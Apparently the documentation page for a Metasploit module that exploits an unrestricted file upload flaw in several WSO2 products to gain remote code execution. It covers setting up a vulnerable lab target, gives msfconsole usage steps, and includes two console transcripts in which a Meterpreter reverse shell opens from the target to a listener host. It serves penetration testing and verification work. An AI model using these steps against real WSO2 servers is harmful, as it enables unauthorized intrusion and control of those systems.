 ## Vulnerable Application

Certain WSO2 products allow unrestricted file upload with resultant remote code execution. This affects WSO2 API Manager
2.2.0 and above through 4.0.0; WSO2 Identity Server 5.2.0 and above through 5.11.0; WSO2 Identity Server Analytics
5.4.0, 5.4.1, 5.5.0, and 5.6.0; WSO2 Identity Server as Key Manager 5.3.0 and above through 5.10.0; and WSO2 Enterprise 
Integrator 6.2.0 and above through 6.6.0.

Download WSO2 API Manager [4.0.0](https://wso2.com/api-management/previous-releases/) or another
version < 4.1.0 from the same link.

Download and install [JDK 1.8](https://www.oracle.com/ca-en/java/technologies/javase/javase8u211-later-archive-downloads.html) 
and set `$JAVA_HOME` in your environment.

Start the vulnerable application with `./wso2am-4.0.0/bin/api-manager.sh`. More information on target setup can be found
[here](https://apim.docs.wso2.com/en/latest/install-and-setup/install-and-setup-overview/).

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use multi/http/wso2_file_upload_rce`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Scenarios

### WSO2 API Manager 4.0.0 on Ubuntu 20.04.1

```
msf6 > use multi/http/wso2_file_upload_rce
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/wso2_file_upload_rce) > set rhosts 172.16.199.173
rhosts => 172.16.199.173
msf6 exploit(multi/http/wso2_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/wso2_file_upload_rce) > check
[*] 172.16.199.173:9443 - The target appears to be vulnerable.
msf6 exploit(multi/http/wso2_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Preparing payload...
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Executing payload...
[*] Waiting for shell... 
[*] Waiting for shell... 
[*] Waiting for shell... 
[*] Waiting for shell... 
[*] Sending stage (58851 bytes) to 172.16.199.173
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.173:34282 ) at 2022-04-26 10:58:31 -0700

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 5.13.0-40-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
```

### WSO2 API Manager 3.0.0 on Ubuntu 20.04.1
```
msf6 > use multi/http/wso2_file_upload_rce
msf6 exploit(multi/http/wso2_file_upload_rce) > set rhosts 172.16.199.173
rhosts => 172.16.199.173
msf6 exploit(multi/http/wso2_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/wso2_file_upload_rce) > check
[*] 172.16.199.173:9443 - The target appears to be vulnerable.
msf6 exploit(multi/http/wso2_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Preparing payload...
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Executing payload...
[*] Waiting for shell... 
[*] Waiting for shell... 
[*] Waiting for shell... 
[*] Waiting for shell... 
[*] Sending stage (58851 bytes) to 172.16.199.173
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.173:33564 ) at 2022-04-26 12:09:18 -0700

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 5.13.0-40-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
```
